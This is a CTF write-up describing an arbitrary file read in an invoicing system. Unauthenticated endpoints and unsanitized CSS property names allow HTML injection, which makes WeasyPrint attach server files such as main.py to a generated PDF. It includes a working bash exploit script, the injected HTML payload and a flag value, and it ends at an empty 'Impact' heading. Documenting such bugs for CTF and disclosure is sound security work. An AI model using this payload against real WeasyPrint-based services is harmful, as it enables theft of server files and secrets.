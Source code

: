 ### Reports and invoicing system

A combination of factors allows an attacker to read any file on the machine

- The invoice system's `/invoices/new` page, the `/invoices/preview` API and the `/invoices/pdfize` API do not require authentication
- The `style` property of the JSON object passed in the `d` parameter to `/invoices/pdfize` isn't property sanitized
  - More precisely, the CSS property names allow HTML characters like `<` and `>`
- Weasyprint (the library used here) allows including files into the PDF using `<link rel=attachment href="PATH" />` in the HTML source for the PDF
  - It's a [documented feature](https://weasyprint.readthedocs.io/en/stable/features.html?highlight=attachment#pdf)
  - The information about weasyprint was leaked using a `background-image` CSS property to load an attacker-controlled image
  - The vendor and version (weasyprint 44) were in the HTTP headers

With all of this, I could make the following bash script to download any file from the server

```bash
VPS_IP="W.X.Y.Z"
VPS_PORT="80"

FILEPATH="main.py" # Path of the file to download. Can be relative to where the app is running or absolute.

QUERY="{\"companyName\":\"\",\"email\":\"\",\"invoiceNumber\":\"\",\"date\":\"\",\"items\":[[\"1\",\"\",\"\",\"10\"]],\"styles\":{\"body\":{\"</style \":\"\",\"><link rel=attachment href=\\\"file://$FILEPATH\\\" />\":\"\"}}}"
ENCODED_QUERY=$(python -c "import urllib.parse, sys; print(urllib.parse.quote(sys.argv[1]))" "$QUERY") # python3

curl "http://$VPS_IP:$VPS_PORT/invoices/preview?d=$ENCODED_QUERY" -o ./50m-ctf/pdfize.pdf

pdfdetach -save 1 -o "./50m-ctf/$(basename $FILEPATH)" ./50m-ctf/pdfize.pdf
```

Reading the `main.py` allows an attacker to read the `c8889970d9fb722066f31e804e351993` flag.

> BLOG NOTES!  
> The bash script was overkill at this point, but it makes the whole thing so much cleaner.  
> For the HTML injection I used two CSS properties (the first one with an empty value) to evade filters and make a closing tag to get out of the CSS context and inject my HTML payload. The rendered HTML looked something like this:.
>
> ```html
> <style>
> /* some properties */
> body {
> </style :
> ><link rel=attachment href="file://main.py" />: }
> ```

## Impact
